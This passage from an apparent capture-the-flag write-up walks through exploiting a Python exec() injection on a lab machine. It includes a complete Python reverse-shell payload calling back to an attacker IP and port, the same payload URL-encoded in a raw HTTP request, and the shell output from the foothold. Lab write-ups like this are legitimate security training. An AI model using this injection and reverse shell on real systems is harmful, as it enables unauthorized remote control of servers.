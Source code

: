 Here there is some python before the `exec()`:
`info = "output = 'Document: {}'"` so we need to "escape" this string. We try a
few thing on our system:

    :::text
    >>> path = ''
    >>> exec(info.format(path))
    >>> path = "test'; print('boom'); 'test"
    >>> exec(info.format(path))
    boom

So we can insert some payload between the two `;`. As the server is running
python we will use the [python TCP reverse
shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python)

So our payload is: `test'; import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.208",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash");'test`.

We get a error 400 "Bad request", so we encode our payload with Burp (url encode
all characters). The payload look like the following in burp repeater (yes I
also encoded the first `/` which is not part of our payload):

    :::text
    GET %2f%74%65%73%74%27%3b%20%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%30%2e%31%30%2e%31%34%2e%32%30%38%22%2c%34%34%34%34%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%69%6d%70%6f%72%74%20%70%74%79%3b%20%70%74%79%2e%73%70%61%77%6e%28%22%2f%62%69%6e%2f%62%61%73%68%22%29%3b%27%74%65%73%74 HTTP/1.1

    Host: 10.10.10.168:8080

This give us a reverse shell as `www-data`. We start enumerating the box and
found interesting files in the `robert` home folder.

    :::text
    www-data@obscure:/$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@obscure:/$ ls /home/
    ls /home/
    robert
    www-data@obscure:/$ ls /home/robert/
    ls /home/robert/
    BetterSSH  enum     passwordreminder.txt  user.txt
    check.txt  out.txt  SuperSecureCrypt.py
    www-data@obscure:/$ ls /home/robert/BetterSSH/
    ls /home/robert/BetterSSH/
    BetterSSH.py

We get the SuperSecureCrypt.py file (*I also get the BetterSSH.py file but it
will be used later*).
